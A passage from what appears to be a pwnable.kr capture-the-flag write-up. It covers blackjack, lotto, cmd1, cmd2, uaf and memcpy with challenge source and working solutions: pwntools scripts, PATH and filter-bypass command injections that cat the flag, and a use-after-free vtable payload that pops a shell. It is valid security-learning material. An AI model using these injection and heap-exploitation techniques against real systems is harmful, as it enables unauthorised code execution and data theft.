    printf("\n                222              111                               "); 
    printf("\n               222               111                           ");   
    printf("\n");
    printf("\n%c%c%c%c%c     %c%c            %c%c         %c%c%c%c%c    %c    %c                ", club, club, club, club, club, spade, spade, diamond, diamond, heart, heart, heart, heart, heart, club, club);  
    printf("\n%c    %c    %c%c           %c  %c       %c     %c   %c   %c              ", club, club, spade, spade, diamond, diamond, heart, heart, club, club);            
    printf("\n%c    %c    %c%c          %c    %c     %c          %c  %c               ", club, club, spade, spade, diamond, diamond, heart, club, club);                        
    printf("\n%c%c%c%c%c     %c%c          %c %c%c %c     %c          %c %c              ", club, club, club, club, club, spade, spade, diamond, diamond, diamond, diamond, heart, club, club);      
    printf("\n%c    %c    %c%c         %c %c%c%c%c %c    %c          %c%c %c             ", club, club, spade, spade, diamond, diamond, diamond, diamond, diamond, diamond, heart, club, club, club);                       
    printf("\n%c     %c   %c%c         %c      %c    %c          %c   %c               ", club, club, spade, spade, diamond, diamond, heart, club, club);                                         
    printf("\n%c     %c   %c%c        %c        %c    %c     %c   %c    %c             ", club, club, spade, spade, diamond, diamond, heart, heart, club, club);                                                            
    printf("\n%c%c%c%c%c%c    %c%c%c%c%c%c%c   %c        %c     %c%c%c%c%c    %c     %c            ", club, club, club, club, club, club, spade, spade, spade, spade, spade, spade, spade, diamond, diamond, heart, heart, heart, heart, heart, club, club);                                                                                     
    printf("\n");     
    printf("\n                        21                                   ");
    
    printf("\n     %c%c%c%c%c%c%c%c      %c%c         %c%c%c%c%c    %c    %c                ", diamond, diamond, diamond, diamond, diamond, diamond, diamond, diamond, heart, heart, club, club, club, club, club, spade, spade);                     
    printf("\n        %c%c        %c  %c       %c     %c   %c   %c              ", diamond, diamond, heart, heart, club, club, spade, spade);                                      
    printf("\n        %c%c       %c    %c     %c          %c  %c               ", diamond, diamond, heart, heart, club, spade, spade);                                           
    printf("\n        %c%c       %c %c%c %c     %c          %c %c              ", diamond, diamond, heart, heart, heart, heart, club, spade, spade);                                     
    printf("\n        %c%c      %c %c%c%c%c %c    %c          %c%c %c             ", diamond, diamond, heart, heart, heart, heart, heart, heart, club, spade, spade, spade);                                                
    printf("\n        %c%c      %c      %c    %c          %c   %c               ", diamond, diamond, heart, heart, club, spade, spade);                                                                               
    printf("\n     %c  %c%c     %c        %c    %c     %c   %c    %c             ", diamond, diamond, diamond, heart, heart, club, spade, spade);                                                                                                               
    printf("\n      %c%c%c      %c        %c     %c%c%c%c%c    %c     %c            ", diamond, diamond, diamond, heart, heart, club, club, club, club, club, spade, spade);                                                                                                                                        
    printf("\n");  
    printf("\n         222                     111                         ");
    printf("\n        222                      111                         ");
    printf("\n       222                       111                         ");
    printf("\n      222222222222222      111111111111111                       ");
    printf("\n      2222222222222222    11111111111111111                         ");
    printf("\n");
    printf("\n");
    
    asktitle();
    
    printf("\n");
    printf("\n");
    system("pause");
    return(0);
} //end program

void asktitle() // Function for asking player if they want to continue
{
	char choice1;
    int choice2;
    
	 printf("\n                 Are You Ready?");
     printf("\n                ----------------");
     printf("\n                      (Y/N)\n                        ");
     scanf("\n%c",&choice1);

	while((choice1!='Y') && (choice1!='y') && (choice1!='N') && (choice1!='n')) // If invalid choice entered
	{                                                                           
		printf("\n");
		printf("Incorrect Choice. Please Enter Y for Yes or N for No.\n");
		scanf("%c",&choice1);
	}


	if((choice1 == 'Y') || (choice1 == 'y')) // If yes, continue. Prints menu.
	{ 
            system("cls");
            printf("\nEnter 1 to Begin the Greatest Game Ever Played.");
		    printf("\nEnter 2 to See a Complete Listing of Rules.");
		    printf("\nEnter 3 to Exit Game. (Not Recommended)");
		    printf("\nChoice: ");
		    scanf("%d", &choice2); // Prompts user for choice
		    if((choice2<1) || (choice2>3)) // If invalid choice entered
		    {
                printf("\nIncorrect Choice. Please enter 1, 2 or 3\n");
                scanf("%d", &choice2);
            }
            switch(choice2) // Switch case for different choices
            {   
                case 1: // Case to begin game
                   system("cls");
                   
                   play();
                                      
                   break;
                   
                case 2: // Case to see rules
                   system("cls");
                   rules();
                   break;
                   
                case 3: // Case to exit game
                   printf("\nYour day could have been perfect.");
                   printf("\nHave an almost perfect day!\n\n");
                   system("pause");
                   exit(0);
                   break;
                   
                default:
                   printf("\nInvalid Input");
            } // End switch case
	} // End if loop
   
		    

	else if((choice1 == 'N') || (choice1 == 'n')) // If no, exit program
	{
		printf("\nYour day could have been perfect.");
        printf("\nHave an almost perfect day!\n\n");
        system("pause");
        exit(0);
	}
	
	return;
} // End function

void rules() //Prints "Rules of Vlad's Blackjack" list
{
     char choice1;
     int choice2;
     
     printf("\n           RULES of VLAD's BLACKJACK");
     printf("\n          ---------------------------");
     printf("\nI.");
     printf("\n     Thou shalt not question the odds of this game.");
     printf("\n      %c This program generates cards at random.", spade);
     printf("\n      %c If you keep losing, you are very unlucky!\n", diamond);
     
     printf("\nII.");
     printf("\n     Each card has a value.");
     printf("\n      %c Number cards 1 to 10 hold a value of their number.", spade);
     printf("\n      %c J, Q, and K cards hold a value of 10.", diamond);
     printf("\n      %c Ace cards hold a value of 11", club);
     printf("\n     The goal of this game is to reach a card value total of 21.\n");
     
     printf("\nIII.");
     printf("\n     After the dealing of the first two cards, YOU must decide whether to HIT or STAY.");
     printf("\n      %c Staying will keep you safe, hitting will add a card.", spade);
     printf("\n     Because you are competing against the dealer, you must beat his hand.");
     printf("\n     BUT BEWARE!.");
     printf("\n      %c If your total goes over 21, you will LOSE!.", diamond);
     printf("\n     But the world is not over, because you can always play again.\n");
     printf("\n%c%c%c YOUR RESULTS ARE RECORDED AND FOUND IN SAME FOLDER AS PROGRAM %c%c%c\n", spade, heart, club, club, heart, spade);
     printf("\nWould you like to go the previous screen? (I will not take NO for an answer)");
     printf("\n                  (Y/N)\n                    ");
     scanf("\n%c",&choice1);
     
     while((choice1!='Y') && (choice1!='y') && (choice1!='N') && (choice1!='n')) // If invalid choice entered
	{                                                                           
		printf("\n");
		printf("Incorrect Choice. Please Enter Y for Yes or N for No.\n");
		scanf("%c",&choice1);
	}


	if((choice1 == 'Y') || (choice1 == 'y')) // If yes, continue. Prints menu.
	{ 
            system("cls");
            asktitle();
	} // End if loop
   
		    

	else if((choice1 == 'N') || (choice1 == 'n')) // If no, convinces user to enter yes
	{
		system("cls");
        printf("\n                 I told you so.\n");
        asktitle();
    }
	
	return;
} // End function

int clubcard() //Displays Club Card Image
{
    
    
    srand((unsigned) time(NULL)); //Generates random seed for rand() function
    k=rand()%13+1;
    
    if(k<=9) //If random number is 9 or less, print card with that number
    {
    //Club Card
    printf("-------\n");
    printf("|%c    |\n", club);
    printf("|  %d  |\n", k);
    printf("|    %c|\n", club);
    printf("-------\n");
    }
    
    
    if(k==10) //If random number is 10, print card with J (Jack) on face
    {
    //Club Card
    printf("-------\n");
    printf("|%c    |\n", club);
    printf("|  J  |\n");
    printf("|    %c|\n", club);
    printf("-------\n");
    }
    
    
    if(k==11) //If random number is 11, print card with A (Ace) on face
    {
    //Club Card
    printf("-------\n");
    printf("|%c    |\n", club);
    printf("|  A  |\n");
    printf("|    %c|\n", club);
    printf("-------\n");
    if(player_total<=10) //If random number is Ace, change value to 11 or 1 depending on dealer total
         {
             k=11;
         }
         
         else
         {

             k=1;
         }
    }
    
    
    if(k==12) //If random number is 12, print card with Q (Queen) on face
    {
    //Club Card
    printf("-------\n");
    printf("|%c    |\n", club);
    printf("|  Q  |\n");
    printf("|    %c|\n", club);
    printf("-------\n");
    k=10; //Set card value to 10
    }
    
    
    if(k==13) //If random number is 13, print card with K (King) on face
    {
    //Club Card
    printf("-------\n");
    printf("|%c    |\n", club);
    printf("|  K  |\n");
    printf("|    %c|\n", club);
    printf("-------\n");
    k=10; //Set card value to 10
    }
    return k;           
}// End function

int diamondcard() //Displays Diamond Card Image
{
    
    
    srand((unsigned) time(NULL)); //Generates random seed for rand() function
    k=rand()%13+1;
    
    if(k<=9) //If random number is 9 or less, print card with that number
    {
    //Diamond Card
    printf("-------\n");
    printf("|%c    |\n", diamond);
    printf("|  %d  |\n", k);
    printf("|    %c|\n", diamond);
    printf("-------\n");
    }
    
    if(k==10) //If random number is 10, print card with J (Jack) on face
    {
    //Diamond Card
    printf("-------\n");
    printf("|%c    |\n", diamond);
    printf("|  J  |\n");
    printf("|    %c|\n", diamond);
    printf("-------\n");
    }
    
    if(k==11) //If random number is 11, print card with A (Ace) on face
    {
    //Diamond Card
    printf("-------\n");
    printf("|%c    |\n", diamond);
    printf("|  A  |\n");
    printf("|    %c|\n", diamond);
    printf("-------\n");
    if(player_total<=10) //If random number is Ace, change value to 11 or 1 depending on dealer total
         {
             k=11;
         }
         
         else
         {
             k=1;
         }
    }
    
    if(k==12) //If random number is 12, print card with Q (Queen) on face
    {
    //Diamond Card
    printf("-------\n");
    printf("|%c    |\n", diamond);
    printf("|  Q  |\n");
    printf("|    %c|\n", diamond);
    printf("-------\n");
    k=10; //Set card value to 10
    }
    
    if(k==13) //If random number is 13, print card with K (King) on face
    {
    //Diamond Card
    printf("-------\n");
    printf("|%c    |\n", diamond);
    printf("|  K  |\n");
    printf("|    %c|\n", diamond);
    printf("-------\n");
    k=10; //Set card value to 10
    }
    return k;
}// End function

int heartcard() //Displays Heart Card Image
{
    
    
    srand((unsigned) time(NULL)); //Generates random seed for rand() function
    k=rand()%13+1;
    
    if(k<=9) //If random number is 9 or less, print card with that number
    {
    //Heart Card
    printf("-------\n");
    printf("|%c    |\n", heart); 
    printf("|  %d  |\n", k);
    printf("|    %c|\n", heart);
    printf("-------\n");
    }
    
    if(k==10) //If random number is 10, print card with J (Jack) on face
    {
    //Heart Card
    printf("-------\n");
    printf("|%c    |\n", heart);
    printf("|  J  |\n");
    printf("|    %c|\n", heart);
    printf("-------\n");
    }
    
    if(k==11) //If random number is 11, print card with A (Ace) on face
    {
    //Heart Card
    printf("-------\n");
    printf("|%c    |\n", heart);
    printf("|  A  |\n");
    printf("|    %c|\n", heart);
    printf("-------\n");
    if(player_total<=10) //If random number is Ace, change value to 11 or 1 depending on dealer total
         {
             k=11;
         }
         
         else
         {
             k=1;
         }
    }
    
    if(k==12) //If random number is 12, print card with Q (Queen) on face
    {
    //Heart Card
    printf("-------\n");
    printf("|%c    |\n", heart);
    printf("|  Q  |\n");
    printf("|    %c|\n", heart);
    printf("-------\n");
    k=10; //Set card value to 10
    }
    
    if(k==13) //If random number is 13, print card with K (King) on face
    {
    //Heart Card
    printf("-------\n");
    printf("|%c    |\n", heart);
    printf("|  K  |\n");
    printf("|    %c|\n", heart);
    printf("-------\n");
    k=10; //Set card value to 10
    }
    return k;
} // End Function

int spadecard() //Displays Spade Card Image
{
    
    
    srand((unsigned) time(NULL)); //Generates random seed for rand() function
    k=rand()%13+1;
    
    if(k<=9) //If random number is 9 or less, print card with that number
    {
    //Spade Card
    printf("-------\n");
    printf("|%c    |\n", spade);
    printf("|  %d  |\n", k);
    printf("|    %c|\n", spade);
    printf("-------\n");
    }
    
    if(k==10) //If random number is 10, print card with J (Jack) on face
    {
    //Spade Card
    printf("-------\n");
    printf("|%c    |\n", spade);
    printf("|  J  |\n");
    printf("|    %c|\n", spade);
    printf("-------\n");
    }
    
    if(k==11) //If random number is 11, print card with A (Ace) on face
    {
    //Spade Card
    printf("-------\n");
    printf("|%c    |\n", spade);
    printf("|  A  |\n");
    printf("|    %c|\n", spade);
    printf("-------\n");
    if(player_total<=10) //If random number is Ace, change value to 11 or 1 depending on dealer total
         {
             k=11;
         }
         
         else
         {
             k=1;
         }
    }
    
    if(k==12) //If random number is 12, print card with Q (Queen) on face
    {
    //Spade Card
    printf("-------\n");
    printf("|%c    |\n", spade);
    printf("|  Q  |\n");
    printf("|    %c|\n", spade);
    printf("-------\n");
    k=10; //Set card value to 10
    }
    
    if(k==13) //If random number is 13, print card with K (King) on face
    {
    //Spade Card
    printf("-------\n");
    printf("|%c    |\n", spade);
    printf("|  K  |\n");
    printf("|    %c|\n", spade);
    printf("-------\n");
    k=10; //Set card value to 10
    }
    return k;
} // End Function

int randcard() //Generates random card
{
     
               
     srand((unsigned) time(NULL)); //Generates random seed for rand() function
     random_card = rand()%4+1;
     
     if(random_card==1)
     {   
         clubcard();
         l=k;
     }
     
     if(random_card==2)
     {
         diamondcard();
         l=k;
     }
     
     if(random_card==3)
     {
         heartcard();
         l=k;
     }
         
     if(random_card==4)
     {
         spadecard();
         l=k;
     }    
     return l;
} // End Function   

void play() //Plays game
{
     
     int p=0; // holds value of player_total
     int i=1; // counter for asking user to hold or stay (aka game turns)
     char choice3;
     
     cash = cash;
     cash_test();
     printf("\nCash: $%d\n",cash); //Prints amount of cash user has
     randcard(); //Generates random card
     player_total = p + l; //Computes player total
     p = player_total;
     printf("\nYour Total is %d\n", p); //Prints player total
     dealer(); //Computes and prints dealer total
     betting(); //Prompts user to enter bet amount
       
     while(i<=21) //While loop used to keep asking user to hit or stay at most twenty-one times
                  //  because there is a chance user can generate twenty-one consecutive 1's
     {
         if(p==21) //If user total is 21, win
         {
             printf("\nUnbelievable! You Win!\n");
             won = won+1;
             cash = cash+bet;
             printf("\nYou have %d Wins and %d Losses. Awesome!\n", won, loss);
             dealer_total=0;
             askover();
         }
     
         if(p>21) //If player total is over 21, loss
         {
             printf("\nWoah Buddy, You Went WAY over.\n");
             loss = loss+1;
             cash = cash - bet;
             printf("\nYou have %d Wins and %d Losses. Awesome!\n", won, loss);
             dealer_total=0;
             askover();
         }
     
         if(p<=21) //If player total is less than 21, ask to hit or stay
         {         
             printf("\n\nWould You Like to Hit or Stay?");
             
             scanf("%c", &choice3);
             while((choice3!='H') && (choice3!='h') && (choice3!='S') && (choice3!='s')) // If invalid choice entered
	         {                                                                           
                 printf("\n");
		         printf("Please Enter H to Hit or S to Stay.\n");
		         scanf("%c",&choice3);
	         }


	         if((choice3=='H') || (choice3=='h')) // If Hit, continues
	         { 
                 randcard();
                 player_total = p + l;
                 p = player_total;
                 printf("\nYour Total is %d\n", p);
                 dealer();
                  if(dealer_total==21) //Is dealer total is 21, loss
                  {
                      printf("\nDealer Has the Better Hand. You Lose.\n");
                      loss = loss+1;
                      cash = cash - bet;
                      printf("\nYou have %d Wins and %d Losses. Awesome!\n", won, loss);
                      dealer_total=0;
                      askover();
                  } 
     
                  if(dealer_total>21) //If dealer total is over 21, win
                  {                      
                      printf("\nDealer Has Went Over!. You Win!\n");
                      won = won+1;
                      cash = cash+bet;
                      printf("\nYou have %d Wins and %d Losses. Awesome!\n", won, loss);
                      dealer_total=0;
                      askover();
                  }
             }
             if((choice3=='S') || (choice3=='s')) // If Stay, does not continue
             {
                printf("\nYou Have Chosen to Stay at %d. Wise Decision!\n", player_total);
                stay();
             }
          }
             i++; //While player total and dealer total are less than 21, re-do while loop 
     } // End While Loop
} // End Function

void dealer() //Function to play for dealer AI
{
     int z;
     
     if(dealer_total<17)
     {
      srand((unsigned) time(NULL) + 1); //Generates random seed for rand() function
      z=rand()%13+1;
      if(z<=10) //If random number generated is 10 or less, keep that value
      {
         d=z;
         
      }
     
      if(z>11) //If random number generated is more than 11, change value to 10
      {
         d=10;
      }
     
      if(z==11) //If random number is 11(Ace), change value to 11 or 1 depending on dealer total
      {
         if(dealer_total<=10)
         {
             d=11;
         }
         
         else
         {
             d=1;
         }
      }
     dealer_total = dealer_total + d;
     }
          
     printf("\nThe Dealer Has a Total of %d", dealer_total); //Prints dealer total
     
} // End Function 

void stay() //Function for when user selects 'Stay'
{
     dealer(); //If stay selected, dealer continues going
     if(dealer_total>=17)
     {
      if(player_total>=dealer_total) //If player's total is more than dealer's total, win
      {
         printf("\nUnbelievable! You Win!\n");
         won = won+1;
         cash = cash+bet;
         printf("\nYou have %d Wins and %d Losses. Awesome!\n", won, loss);
         dealer_total=0;
         askover();
      }
      if(player_total<dealer_total) //If player's total is less than dealer's total, loss
      {
         printf("\nDealer Has the Better Hand. You Lose.\n");
         loss = loss+1;
         cash = cash - bet;
         printf("\nYou have %d Wins and %d Losses. Awesome!\n", won, loss);
         dealer_total=0;
         askover();
      }
      if(dealer_total>21) //If dealer's total is more than 21, win
      {
         printf("\nUnbelievable! You Win!\n");
         won = won+1;
         cash = cash+bet;
         printf("\nYou have %d Wins and %d Losses. Awesome!\n", won, loss);
         dealer_total=0;
         askover();
      }
     }
     else
     {
         stay();
     }
     
} // End Function

void cash_test() //Test for if user has cash remaining in purse
{
     if (cash <= 0) //Once user has zero remaining cash, game ends and prompts user to play again
     {
		printf("You Are Bankrupt. Game Over");
		cash = 500;
        askover();
     }
} // End Function

int betting() //Asks user amount to bet
{
 printf("\n\nEnter Bet: $");
 scanf("%d", &bet);

 if (bet > cash) //If player tries to bet more money than player has
 {
		printf("\nYou cannot bet more money than you have.");
		printf("\nEnter Bet: ");
        scanf("%d", &bet);
        return bet;
 }
 else return bet;
} // End Function

void askover() // Function for asking player if they want to play again
{
	char choice1;
        
	 printf("\nWould You Like To Play Again?");
     printf("\nPlease Enter Y for Yes or N for No\n");
     scanf("\n%c",&choice1);

	while((choice1!='Y') && (choice1!='y') && (choice1!='N') && (choice1!='n')) // If invalid choice entered
	{                                                                           
		printf("\n");
		printf("Incorrect Choice. Please Enter Y for Yes or N for No.\n");
		scanf("%c",&choice1);
	}


	if((choice1 == 'Y') || (choice1 == 'y')) // If yes, continue.
	{ 
            system("cls");
            play();
	}
 
  	else if((choice1 == 'N') || (choice1 == 'n')) // If no, exit program
	{
        fileresults();
        printf("\nBYE!!!!\n\n");
        system("pause");
        exit(0);
	}
	return;
} // End function

void fileresults() //Prints results into Blackjack.txt file in program directory
{
    FILE *fpresults; //File pointer is fpresults
    fpresults = fopen(RESULTS, "w"); //Creates file and writes into it
    if(fpresults == NULL) // what to do if file missing from directory
    {
               printf("\nError: File Missing\n");
               system("pause");
               exit(1);
    }
    else
    {     
     fprintf(fpresults,"\n\t RESULTS");
     fprintf(fpresults,"\n\t---------\n");
     fprintf(fpresults,"\nYou Have Won %d Times\n", won);
     fprintf(fpresults,"\nYou Have Lost %d Times\n", loss);
     fprintf(fpresults,"\nKeep Playing and Set an All-Time Record!");
    } 
     fclose(fpresults);
     return;
} // End Function
```

Analyzing...


Variable bet is of type signed int, and in (bet > cash), scanf is not validated.

So, we have 2 ways to make $1,000,000.

We can enter a negative value and lose the game.

Or enter a large value and win the game.

I'd like to win the game.



That's all of blackjack.

### lotto


Another game :D

Source code: 

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>

unsigned char submit[6];

void play(){

        int i;
        printf("Submit your 6 lotto bytes : ");
        fflush(stdout);

        int r;
        r = read(0, submit, 6);

        printf("Lotto Start!\n");
        //sleep(1);

        // generate lotto numbers
        int fd = open("/dev/urandom", O_RDONLY);
        if(fd==-1){
                printf("error. tell admin\n");
                exit(-1);
        }
        unsigned char lotto[6];
        if(read(fd, lotto, 6) != 6){
                printf("error2. tell admin\n");
                exit(-1);
        }
        for(i=0; i<6; i++){
                lotto[i] = (lotto[i] % 45) + 1;         // 1 ~ 45
        }
        close(fd);

        // calculate lotto score
        int match = 0, j = 0;
        for(i=0; i<6; i++){
                for(j=0; j<6; j++){
                        if(lotto[i] == submit[j]){
                                match++;
                        }
                }
        }

        // win!
        if(match == 6){
                system("/bin/cat flag");
        }
        else{
                printf("bad luck...\n");
        }

}

void help(){
        printf("- nLotto Rule -\n");
        printf("nlotto is consisted with 6 random natural numbers less than 46\n");
        printf("your goal is to match lotto numbers as many as you can\n");
        printf("if you win lottery for *1st place*, you will get reward\n");
        printf("for more details, follow the link below\n");
        printf("http://www.nlotto.co.kr/counsel.do?method=playerGuide#buying_guide01\n\n");
        printf("mathematical chance to win this game is known to be 1/8145060.\n");
}

int main(int argc, char* argv[]){

        // menu
        unsigned int menu;

        while(1){

                printf("- Select Menu -\n");
                printf("1. Play Lotto\n");
                printf("2. Help\n");
                printf("3. Exit\n");

                scanf("%d", &menu);

                switch(menu){
                        case 1:
                                play();
                                break;
                        case 2:
                                help();
                                break;
                        case 3:
                                printf("bye\n");
                                return 0;
                        default:
                                printf("invalid menu\n");
                                break;
                }
        }
        return 0;
}
```

Play it first then check the source code.

        // calculate lotto score
        int match = 0, j = 0;
        for(i=0; i<6; i++){
                for(j=0; j<6; j++){
                        if(lotto[i] == submit[j]){
                                match++;
                        }
                }
        }

If we have one byte is right, we will get 6 points and win.

Each time, the program will re-randomize variable lotto.

So we will enter a byte * 6 and hope to match this byte with a byte in the variable lotto.

EXP: 

```python
from pwn import *
# context.log_level = "debug"

pwn_ssh = ssh(host="pwnable.kr", port=2222, user="lotto", password="guest")
p = pwn_ssh.process(executable="./lotto", argv=["./lotto"])

p.recvlines(4)

for i in range(1000):
    p.sendline(b"1")
    p.recvuntil("Submit your 6 lotto bytes : ")
    p.sendline(b"------")

    ans = p.recvlines(2)
    print("trying:", i+1)
    if b"bad" not in ans[1]:
        print("flag is:", ans[1].decode())
        break
```

### cmd1


Source code: 

```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
        int r=0;
        r += strstr(cmd, "flag")!=0;
        r += strstr(cmd, "sh")!=0;
        r += strstr(cmd, "tmp")!=0;
        return r;
}
int main(int argc, char* argv[], char** envp){
        putenv("PATH=/thankyouverymuch");
        if(filter(argv[1])) return 0;
        system( argv[1] );
        return 0;
}
```

Program set env to a unknown location.

So, we just cannot use **cat**, it should be **/bin/cat**.

We can use wildcard to bypass. 

```shell
./cmd1 "/bin/cat f***"
```

Or, concatenate strings.

```shell
./cmd1 "/bin/cat 'fla''g'"
```


Or, use python

```shell
./cmd1 "/usr/bin/python"
import os
os.system("/bin/cat flag")
```


And other ways...

flag is **mommy now I get what PATH environment is for :)**

### cmd2


Source code: 

```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
        int r=0;
        r += strstr(cmd, "=")!=0;
        r += strstr(cmd, "PATH")!=0;
        r += strstr(cmd, "export")!=0;
        r += strstr(cmd, "/")!=0;
        r += strstr(cmd, "`")!=0;
        r += strstr(cmd, "flag")!=0;
        return r;
}

extern char** environ;
void delete_env(){
        char** p;
        for(p=environ; *p; p++) memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
        delete_env();
        putenv("PATH=/no_command_execution_until_you_become_a_hacker");
        if(filter(argv[1])) return 0;
        printf("%s\n", argv[1]);
        system( argv[1] );
        return 0;
}
```

No need to say, I found a cool thing.

```shell
cmd2@pwnable:~$ ./cmd2 '$(read x; echo $x)'
$(read x; echo $x)
/bin/cat flag
FuN_w1th_5h3ll_v4riabl3s_haha
cmd2@pwnable:~$
```

COOL!!!

### uaf


It's about heap ):

Source code: 

```cpp
#include <fcntl.h>
#include <iostream>
#include <cstring>
#include <cstdlib>
#include <unistd.h>
using namespace std;

class Human{
private:
        virtual void give_shell(){
                system("/bin/sh");
        }
protected:
        int age;
        string name;
public:
        virtual void introduce(){
                cout << "My name is " << name << endl;
                cout << "I am " << age << " years old" << endl;
        }
};

class Man: public Human{
public:
        Man(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a nice guy!" << endl;
        }
};

class Woman: public Human{
public:
        Woman(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a cute girl!" << endl;
        }
};

int main(int argc, char* argv[]){
        Human* m = new Man("Jack", 25);
        Human* w = new Woman("Jill", 21);

        size_t len;
        char* data;
        unsigned int op;
        while(1){
                cout << "1. use\n2. after\n3. free\n";
                cin >> op;

                switch(op){
                        case 1:
                                m->introduce();
                                w->introduce();
                                break;
                        case 2:
                                len = atoi(argv[1]);
                                data = new char[len];
                                read(open(argv[2], O_RDONLY), data, len);
                                cout << "your data is allocated" << endl;
                                break;
                        case 3:
                                delete m;
                                delete w;
                                break;
                        default:
                                break;
                }
        }

        return 0;
}
```

It's not easy but easy also.

Just a UAF, but I don't know about glibc's heap management mechanism and C++'s virtual functions principle.

**References:**

https://shaharmike.com/cpp/vtable-part1/https://shaharmike.com/cpp/vtable-part1/

https://azeria-labs.com/heap-exploitation-part-1-understanding-the-glibc-heap-implementation/

https://azeria-labs.com/heap-exploitation-part-2-glibc-heap-free-bins/

https://sensepost.com/blog/2017/painless-intro-to-the-linux-userland-heap/

Once you have learned these things, you can do this.

```shell
uaf@pwnable:~$ python -c "print '\x68\x15\x40\x00\x00\x00\x00\x00' + 'k'*16" > /tmp/YOUR_FOLDER/heap
uaf@pwnable:~$ ./uaf 24 /tmp/YOUR_FOLDER/heap
1. use
2. after
3. free
3
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
1
$ cat flag
yay_f1ag_aft3r_pwning
```

### memcpy

10 points :D


Source code: 

```c
// compiled with : gcc -o memcpy memcpy.c -m32 -lm
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
#include <sys/mman.h>
#include <math.h>

unsigned long long rdtsc(){
        asm("rdtsc");
}

char* slow_memcpy(char* dest, const char* src, size_t len){
	int i;
	for (i=0; i<len; i++) {
		dest[i] = src[i];
	}
	return dest;
}

char* fast_memcpy(char* dest, const char* src, size_t len){
	size_t i;
	// 64-byte block fast copy
	if(len >= 64){
		i = len / 64;
		len &= (64-1);
		while(i-- > 0){
			__asm__ __volatile__ (
			"movdqa (%0), %%xmm0\n"
			"movdqa 16(%0), %%xmm1\n"
			"movdqa 32(%0), %%xmm2\n"
			"movdqa 48(%0), %%xmm3\n"
			"movntps %%xmm0, (%1)\n"
			"movntps %%xmm1, 16(%1)\n"
			"movntps %%xmm2, 32(%1)\n"
			"movntps %%xmm3, 48(%1)\n"
			::"r"(src),"r"(dest):"memory");
			dest += 64;
			src += 64;
		}
	}

	// byte-to-byte slow copy
	if(len) slow_memcpy(dest, src, len);
	return dest;
}

int main(void){

	setvbuf(stdout, 0, _IONBF, 0);
	setvbuf(stdin, 0, _IOLBF, 0);

	printf("Hey, I have a boring assignment for CS class.. :(\n");
	printf("The assignment is simple.\n");

	printf("-----------------------------------------------------\n");
	printf("- What is the best implementation of memcpy?        -\n");
	printf("- 1. implement your own slow/fast version of memcpy -\n");
	printf("- 2. compare them with various size of data         -\n");
	printf("- 3. conclude your experiment and submit report     -\n");
	printf("-----------------------------------------------------\n");

	printf("This time, just help me out with my experiment and get flag\n");
	printf("No fancy hacking, I promise :D\n");

	unsigned long long t1, t2;
	int e;
	char* src;
	char* dest;
	unsigned int low, high;
	unsigned int size;
	// allocate memory
	char* cache1 = mmap(0, 0x4000, 7, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
	char* cache2 = mmap(0, 0x4000, 7, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
	src = mmap(0, 0x2000, 7, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);

	size_t sizes[10];
	int i=0;

	// setup experiment parameters
	for(e=4; e<14; e++){	// 2^13 = 8K
		low = pow(2,e-1);
		high = pow(2,e);
		printf("specify the memcpy amount between %d ~ %d : ", low, high);
		scanf("%d", &size);
		if( size < low || size > high ){
			printf("don't mess with the experiment.\n");
			exit(0);
		}
		sizes[i++] = size;
	}

	sleep(1);
	printf("ok, lets run the experiment with your configuration\n");
	sleep(1);

	// run experiment
	for(i=0; i<10; i++){
		size = sizes[i];
		printf("experiment %d : memcpy with buffer size %d\n", i+1, size);
		dest = malloc( size );

		memcpy(cache1, cache2, 0x4000);		// to eliminate cache effect
		t1 = rdtsc();
		slow_memcpy(dest, src, size);		// byte-to-byte memcpy
		t2 = rdtsc();
		printf("ellapsed CPU cycles for slow_memcpy : %llu\n", t2-t1);

		memcpy(cache1, cache2, 0x4000);		// to eliminate cache effect
		t1 = rdtsc();
		fast_memcpy(dest, src, size);		// block-to-block memcpy
		t2 = rdtsc();
		printf("ellapsed CPU cycles for fast_memcpy : %llu\n", t2-t1);
		printf("\n");
	}

	printf("thanks for helping my experiment!\n");
	printf("flag : ----- erased in this source code -----\n");
	return 0;
}
```

The binary file on port 9022 is 32-bit.

Under 32-bit architecture, malloc have 4 bytes header, and 8 byte alignment.

**movdqa **and **movntps** needs 16 byte alignment.

So, if (size + 4) % 16 > 9, mallo will align it to 16 bytes.

And (size + 4) % 16 = 0, indicating that it is already 16-byte aligned.

I traverse to find the value that meet the requirements in each range.

EXP: 

```python
#!/usr/bin/python3
# coidng  = utf-8

from pwn import *

def makePayload():
    payload = []
    ii=3
    while(1):
        if(2**ii > 4096):
            break
        for i in range(2**ii, (2**(ii+1))+1):
            a = i
            if (a+4)%16>=9 or (a+4)%16==0:
                print(a," is ok")
                payload.append(str(a).encode("utf-8"))
                break
            else:
                # print(a," is wrong")
                continue
        ii+=1
    return payload

def main():
    r = remote("pwnable.kr", 9022)
    payload = makePayload()
    print(payload)
    r.recvlines(10)
    for i in range(10):
        r.recvuntil(b": ")
        r.sendline(payload[i])
    r.recvuntil(b"flag : ")
    print("flag:", r.recv().decode("utf-8"))

if __name__ == "__main__":
    main()
```

### asm


I am exciting.Because I close to be rookiss.

I am not a toddler, a few days later.

Source code: 

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <seccomp.h>
#include <sys/prctl.h>
#include <fcntl.h>
#include <unistd.h>

#define LENGTH 128

void sandbox(){
        scmp_filter_ctx ctx = seccomp_init(SCMP_ACT_KILL);
        if (ctx == NULL) {
                printf("seccomp error\n");
                exit(0);
        }

        seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);
        seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
        seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
        seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
